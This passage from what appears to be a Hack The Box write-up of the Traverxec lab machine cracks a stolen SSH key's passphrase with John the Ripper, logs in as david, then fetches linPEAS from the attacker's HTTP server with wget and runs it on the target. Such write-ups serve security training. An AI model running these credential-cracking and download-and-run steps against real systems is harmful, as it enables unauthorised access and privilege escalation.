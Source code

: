 We can try using this `id_rsa` file to SSH as David now.

```bash
luc@kali:~/HTB/Traverxec$ ssh -i home/david/.ssh/id_rsa david@10.10.10.165
Enter passphrase for key 'home/david/.ssh/id_rsa':
```

We'll need to crack this using `John`

```bash
luc@kali:~/HTB/Traverxec$ /usr/share/john/ssh2john.py home/david/.ssh/id_rsa > ssh-hash
luc@kali:~/HTB/Traverxec$ john --wordlist=/usr/share/wordlists/rockyou.txt ssh-hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (home/david/.ssh/id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:02 DONE (2020-06-15 15:39) 0.3623g/s 5196Kp/s 5196Kc/s 5196KC/sa6_123..*7¡Vamos!
Session completed
luc@kali:~/HTB/Traverxec$ john --show ssh-hash
home/david/.ssh/id_rsa:hunter

1 password hash cracked, 0 left
```

We've found the password, `hunter`.

```bash
luc@kali:~/HTB/Traverxec$ ssh -i home/david/.ssh/id_rsa david@10.10.10.165
Enter passphrase for key 'home/david/.ssh/id_rsa': hunter
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
david@traverxec:~$ cat user.txt
7db0b484************************
```

## David to root

```bash
luc@kali:~/HTB/Traverxec$ cp /opt/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh .
luc@kali:~/HTB/Traverxec$ python3 -m http.server
```

```bash
david@traverxec:/tmp$ wget http://10.10.14.16:8000/linpeas.sh
david@traverxec:/tmp$ chmod +x 600 linpeas.sh
david@traverxec:/tmp$ ./linpeas.sh
...
[+] PATH
[i] Any writable folder in original PATH? (a new completed path will be exported)
/home/david/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
New path exported: /home/david/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/local/sbin:/usr/sbin:/sbin
...
```
